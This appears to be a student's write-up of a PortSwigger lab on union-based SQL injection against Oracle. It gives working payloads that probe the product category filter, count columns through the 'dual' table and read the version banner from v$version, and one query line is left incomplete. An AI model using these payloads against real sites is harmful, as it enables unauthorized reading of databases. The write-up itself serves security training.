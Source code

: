 # 🧠 Lab Title: SQL injection attack, querying the database type and version on Oracle

## 🔍 Category
SQLI

## 🎯 Objective
> Display the database version string.

## 🧰 Tools Used
- Notepad

## 🚀 Exploitation Steps
#### Observe the description
> Before diving into the lab, we’re told it's using an Oracle database, which has a special dummy table called `dual`. so the statment looks like this 
```sql 
UNION SELECT 'abc' FROM dual
``` 
and the vulnerability is in the product category filter, we should do UNION based attack.

#### Access the lab
> Click on `ACCESS THE LAB`

#### START HACKING!!!
1) Imagine the query  
```sql
SELECT * FROM products WHERE category = '';
```
2) Enter '
3) We get a 500 error – this is a good sign, as it suggests our input broke the query, indicating SQL injection 
4) from [portswigger's cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) we know that to retrive the database version we do 
```sql
SELECT banner FROM 
```
but first we need to define the numbers of coulmns of the database so we do
```sql
' UNION SELECT NULL FROM dual -- 
```
we still get 500 , which means our statment is wrong , so we will put another NULL 

```sql
' UNION SELECT NULL ,NULL FROM dual -- 
```
we got a 200 (HTTP STATUS CODE)!!!

so now lets build our payload

```sql
' UNION SELECT BANNER , NULL FROM v$version --
```
### 4. Proof of Success
- We can see the database version
## 🧵 Reflection
> What is the table that Oracle has as a dummy?
> How to retrieve the version of the Oracle database?
